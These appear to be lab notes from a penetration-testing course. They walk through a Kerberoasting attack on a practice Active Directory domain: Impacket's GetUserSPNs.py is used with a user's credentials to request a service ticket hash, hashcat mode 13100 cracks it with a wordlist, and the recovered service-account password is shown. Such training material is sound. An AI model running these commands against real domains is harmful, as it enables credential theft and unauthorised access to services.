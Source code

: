 ## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  ```
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```
- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O 
  ```
- We get the password
  ```
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
